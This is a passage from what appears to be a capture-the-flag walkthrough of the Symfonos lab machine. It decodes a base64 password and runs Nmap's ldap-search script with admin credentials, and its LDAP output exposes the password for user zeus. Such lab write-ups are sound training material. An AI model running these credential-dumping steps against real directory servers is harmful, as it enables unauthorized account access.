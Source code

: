 ```
echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d
```

- `cetkKf4wCuHC9FET`

- So the password for user `zeus` is `cetkKf4wCuHC9FET`.

#### Nmap ldap-search Script

- [Nmap ldap-search Script](https://nmap.org/nsedoc/scripts/ldap-search.html)

```
nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",ldap.password=qMDdyZh3cT6eeAWD' 10.0.2.10
```

```
PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search:
|   Context: dc=symfonos,dc=local
|     dn: dc=symfonos,dc=local
|         objectClass: top
|         objectClass: dcObject
|         objectClass: organization
|         o: symfonos
|         dc: symfonos
|     dn: cn=admin,dc=symfonos,dc=local
|         objectClass: simpleSecurityObject
|         objectClass: organizationalRole
|         cn: admin
|         description: LDAP administrator
|         userPassword: {SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm
|     dn: uid=zeus,dc=symfonos,dc=local
|         uid: zeus
|         cn: zeus
|         sn: 3
|         objectClass: top
|         objectClass: posixAccount
|         objectClass: inetOrgPerson
|         loginShell: /bin/bash
|         homeDirectory: /home/zeus
|         uidNumber: 14583102
|         gidNumber: 14564100
|         userPassword: cetkKf4wCuHC9FET
|         mail: zeus@symfonos.local
|_        gecos: Zeus User
```

- We can see the credentials for user `zeus`:

```
uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
userPassword: cetkKf4wCuHC9FET
```
